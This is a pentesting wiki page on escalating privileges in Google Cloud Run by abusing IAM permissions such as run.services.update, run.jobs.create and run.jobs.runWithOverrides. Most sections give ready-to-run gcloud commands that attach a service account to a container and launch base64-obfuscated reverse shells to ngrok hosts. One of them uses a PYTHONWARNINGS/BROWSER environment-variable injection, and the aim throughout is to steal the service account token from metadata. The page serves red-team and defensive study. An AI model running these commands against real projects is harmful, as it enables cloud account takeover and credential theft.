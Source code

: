 # GCP - Run Privesc

## Cloud Run

For more information about Cloud Run check:

[[../gcp-services/gcp-cloud-run-enum.md]]

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

An attacker with these permissions to **create a run service running arbitrary code** (arbitrary Docker container), attach a Service Account to it, and make the code **exfiltrate the Service Account token from the metadata**.

An exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) and the Docker image can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Note that when using `gcloud run deploy` instead of just creating the service **it needs the `update` permission**. Check an [**example here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Like the previous one but updating a service:

```bash
# Launch some web server to listen in port 80 so the service works
echo "python3 -m http.server 80;sh -i >& /dev/tcp/0.tcp.eu.ngrok.io/14348 0>&1" | base64
# cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg==

gcloud run deploy hacked \
--image=ubuntu:22.04 \  # Make sure to use an ubuntu version that includes python3
--command=bash \
--args="-c,echo cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```

### `run.services.setIamPolicy`

Give yourself previous permissions over cloud Run.

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

Launch a job with a reverse shell to steal the service account indicated in the command. You can find an [**exploit here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/m-run.jobs.create.sh).

```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Similar to the previous one it's possible to **update a job and update the SA**, the **command** and **execute it**:

```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```

### `run.jobs.setIamPolicy`

Give yourself the previous permissions over Cloud Jobs.

### `run.jobs.run`, `run.jobs.runWithOverrides`, (`run.jobs.get`)

Abuse the env variables of a job execution to execute arbitrary code and get a reverse shell to dump the contents of the container (source code) and access the SA inside the metadata:

```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

